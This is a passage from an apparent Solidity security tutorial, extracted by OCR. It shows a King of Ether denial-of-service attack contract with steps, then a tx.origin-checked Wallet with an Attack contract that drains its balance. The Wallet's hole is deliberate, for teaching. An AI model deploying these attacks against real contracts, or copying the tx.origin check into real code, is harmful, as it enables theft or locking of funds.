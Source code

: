 ```solidity
    // This attack will work even if the calling contract does not check
    // whether the call was successful or not.
    //
    // function () external payable {
    //     assert(false);
    // }

    function attack() public payable {
        kingOfEther.claimThrone{value: msg.value}();
    }
}
```



Attack steps:

1. Deploy KingOfEther
2. Alice becomes King by staking 1 ETH by calling KingOfEther.claimThrone
3. Eve uses the address of KingOfEther to deploy Attack
4. Eve calls Attack.attack to pledge 3 ETH to become the new King (at the same time Alice receives 1 ETH returned to TA)
5. After that, when someone calls KingOfEther.claimThrone to pledge coins, even if it is more than 3 ETH, it will not become a new King, and Eve has always been King.

Key knowledge points:

1. If you want to send ETH to a smart contract, the smart contract must implement at least one of the functions receive or fallback, otherwise sending ETH to this contract will not succeed.



### tx.origin

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract Wallet {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner, "Not owner");

        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    address payable public owner;
    Wallet wallet;

    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet);
        owner = payable(msg.sender);
    }

    function attack() public {
        wallet.transfer(owner, address(wallet).balance);
    }
}
```
